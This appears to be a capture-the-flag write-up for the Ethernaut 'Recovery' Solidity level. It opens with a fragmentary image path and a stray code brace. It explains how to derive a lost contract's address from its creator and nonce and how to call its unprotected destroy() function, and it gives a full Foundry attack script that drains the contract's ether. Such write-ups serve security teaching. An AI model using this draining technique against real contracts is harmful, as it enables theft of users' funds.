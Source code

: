 ```javascript
}
```

- Goal

1. This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

- Solution

1. The SimpleToken contract is funded with 0.001 ether. We need to drain those ether.
2. To drain ether we can simply call the `destroy()` function of the SimpleToken contract.
3. But we dont have the address of the SimpleToken. We can user ETHERSCAN to identify the transaction of Recovery contract to find the address of the SimpleToken.
4. We can also use a formula that is mentioned in ethereum yellow paper about how a newly created contract address will be computed.
5. The formula is `address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(_creator), bytes1(0x01))))))`
5. `0xd6` and `0x94` are constants and the last byte1 is the nonce, i.e, number contracts created from the existed contract. We assume that its one.
6. By this formula we can recover the SimpleToken address and call the `destroy()` function to drain all ether.

`RecoverySolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Recovery} from "../src/Recovery.sol";

contract RecoverySolve is Script{
    Recovery public recovery = Recovery(0xb85de0D636d9C15Be34104D65A9eE406001463bE);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        address myAddress = address(vm.envAddress("MY_ADDRESS"));
        
        Attack attack = new Attack();
        console.log("Attack Address : ", address(attack));
        console.log("MY Balance : ", myAddress.balance);
        
        address _creator = address(recovery);

        address token = attack.exploit(_creator, payable(myAddress));
        
        console.log("Token Address : ", token);
        console.log("MY Balance : ", myAddress.balance);

        vm.stopBroadcast();
    }
}

contract Attack{
    function exploit(address _creator, address payable _myAddress) public returns(address){
        address missedToken = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(_creator), bytes1(0x01))))));

        missedToken.call(abi.encodeWithSignature("destroy(address)", _myAddress));

        return missedToken;
    }
}
```
